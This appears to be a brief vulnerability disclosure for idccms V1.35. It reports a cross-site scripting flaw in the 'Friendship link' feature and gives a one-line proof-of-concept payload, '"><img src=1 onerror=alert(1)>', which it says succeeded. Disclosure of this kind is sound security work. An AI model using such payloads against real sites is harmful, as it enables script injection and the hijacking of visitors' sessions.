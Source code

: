 
target:http://idccms.com/
version: V1.35

There is Cross-Site Scripting (XSS)  vulnerability within the 'Friendship link' .

![图片1](1.png)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![图片](2.png)
